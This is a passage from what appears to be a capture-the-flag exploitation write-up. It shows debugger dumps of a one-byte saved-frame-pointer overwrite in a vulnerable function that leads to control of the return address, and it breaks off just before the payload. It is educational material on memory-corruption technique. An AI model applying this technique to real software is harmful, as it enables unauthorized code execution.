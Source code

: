 After `leave` instruction we see that `$rbp` last byte is overwritten with our "B".  

```gdb
 RAX  0x41
 RBX  0x0
 RCX  0x7ffff7af2151 (read+17) ◂— cmp    rax, -0x1000 /* 'H=' */
 RDX  0x41
 RDI  0x0
 RSI  0x7fffffffe020 ◂— 0x4141414141414141 ('AAAAAAAA')
 R8   0xec
 R9   0x0
 R10  0x0
 R11  0x246
 R12  0x4006d0 (_start) ◂— xor    ebp, ebp
 R13  0x7fffffffe150 ◂— 0x1
 R14  0x0
 R15  0x0
*RBP  0x7fffffffe042 ◂— 0x4141414141414141 ('AAAAAAAA')
*RSP  0x7fffffffe068 —▸ 0x400aa5 (main+14) ◂— mov    eax, 0
*RIP  0x400a47 (vulnerable_function+168) ◂— nop    
───────────────────────────────────────────────[ DISASM ]────────────────────────────────────────────────
   0x400a34 <vulnerable_function+149>    mov    edx, 0x41
   0x400a39 <vulnerable_function+154>    mov    rsi, rax
   0x400a3c <vulnerable_function+157>    mov    edi, 0
   0x400a41 <vulnerable_function+162>    call   read@plt                      <read@plt>
 
   0x400a46 <vulnerable_function+167>    leave  
 ► 0x400a47 <vulnerable_function+168>    nop    
   0x400a48 <vulnerable_function+169>    leave  
   0x400a49 <vulnerable_function+170>    ret    
 
   0x400a4a <setup>                      push   rbp
   0x400a4b <setup+1>                    mov    rbp, rsp
   0x400a4e <setup+4>                    mov    rax, qword ptr [rip + 0x2015cb] <0x602020>
```

```gdb
*RBP  0x4141414141414141 ('AAAAAAAA')
*RSP  0x7fffffffe04a ◂— 0x4141414141414141 ('AAAAAAAA')
*RIP  0x400a49 (vulnerable_function+170) ◂— ret    
───────────────────────────────────────────────[ DISASM ]────────────────────────────────────────────────
   0x400a3c <vulnerable_function+157>    mov    edi, 0
   0x400a41 <vulnerable_function+162>    call   read@plt                      <read@plt>
 
   0x400a46 <vulnerable_function+167>    leave  
   0x400a47 <vulnerable_function+168>    nop    
   0x400a48 <vulnerable_function+169>    leave  
 ► 0x400a49 <vulnerable_function+170>    ret    <0x4141414141414141>
```

So, our payload should look like this:
